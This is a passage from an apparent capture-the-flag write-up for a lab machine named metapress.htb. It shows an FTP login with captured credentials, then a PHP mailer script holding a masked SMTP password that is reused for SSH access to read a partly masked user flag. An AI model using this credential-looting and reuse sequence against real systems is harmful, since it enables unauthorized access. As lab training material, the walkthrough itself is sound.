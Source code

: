 Great we got ftp credentials for metapress.htb user.

```
ftp 10.10.11.186
Connected to 10.10.11.186.
220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
Name (10.10.11.186:kali): metapress.htb
331 Password required for metapress.htb
Password:
230 User metapress.htb logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```
Dive in the emailer directory we found a php file : `send_email.php` which contains
credentials for jnelson user :

```
<?php
/*
 * This script will be used to send an email to all our users when ready for launch
*/

use PHPMailer\PHPMailer\PHPMailer;
use PHPMailer\PHPMailer\SMTP;
use PHPMailer\PHPMailer\Exception;

require 'PHPMailer/src/Exception.php';
require 'PHPMailer/src/PHPMailer.php';
require 'PHPMailer/src/SMTP.php';

$mail = new PHPMailer(true);

$mail->SMTPDebug = 3;
$mail->isSMTP();

$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "**********";
$mail->SMTPSecure = "tls";
$mail->Port = 587;
...[snip]...
```
Use these credentials to connect to ssh and grab the user flag :

```
jnelson@meta2:~$ cat user.txt
e629b0a5aea15********
jnelson@meta2:~$
```

## **From gpg to root**
